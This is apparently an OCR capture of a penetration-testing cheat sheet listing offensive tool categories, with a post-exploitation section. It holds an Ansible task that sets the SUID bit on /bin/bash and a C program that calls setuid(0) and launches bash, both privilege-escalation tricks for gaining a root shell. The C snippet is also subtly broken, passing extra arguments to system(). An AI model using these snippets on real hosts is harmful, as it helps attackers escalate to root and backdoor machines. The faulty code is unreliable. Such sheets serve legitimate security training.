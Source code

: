 ## 04 Database Assessment
## 05 Password Attacks
## 06 Wireless Attacks
## 07 Reverse Engineering
## 08 Exploitation Tools
## 09 Sniffing & Spoofing
## 10 Post Exploitation

### YAML Ain't Markup Language (YAML)

#### Bad YAML Ain't Markup Language (YAML)

```c
- hosts: localhost
  tasks:
    - name: badyml
      command: chmod +s /bin/bash
```

## 11 Forensics
## 12 Reporting Tools
## 13 Social Engineering Tools
## Basics
	
### C

#### Shell Option 1

```c
#include <unistd.h>
#include <errno.h>

main( int argc, char ** argv, char ** envp )
{
    setuid(0);
    setgid(0);
    envp = 0;
    system ("/bin/bash", argv, envp);
return;
}
```

